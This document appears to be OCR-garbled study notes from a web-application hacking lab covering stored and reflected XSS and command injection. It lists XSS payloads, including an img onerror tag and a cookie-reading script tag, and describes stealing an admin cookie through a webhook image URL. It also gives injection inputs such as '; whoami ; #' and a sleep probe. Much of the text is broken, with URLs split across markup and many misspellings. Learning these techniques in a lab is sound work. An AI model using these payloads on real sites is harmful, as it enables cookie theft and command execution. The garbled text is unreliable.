 **img src=x onerror=\"\'httos://tcm-sec.com\'\".**

**\>**

## XXS 0x02

> Stored XSS
>
> The result must effect database and to all the users.
>
> Create 2 or more user accounts add ***\< script\>alert(document.
> Cookie)\</ script\>*** to one account and when we open another account
> we will see it getting reflected.

Basis Stored XXS

## XXS 0x03

> Use webhook.com to get a image utl and pass it in the comments session
> we will be able ot get the adin cookie..

# 5.Command line injection

## Command Injection 0x01

[htt]{.underline}

[p://localhos]{.underline}

[[t]{.underline}](http://localhost/)

[;](http://localhost/)

whoami ; \#

; which php ; \#

## Command Injection 0x01

[htt]{.underline}

[p://localhost?q]{.underline}

[=\'slee]{.underline}

[[p]{.underline}](http://localhost/?q=%27sleep)

10

\'

?q=\'whoami\'

## Command Injection 0x03
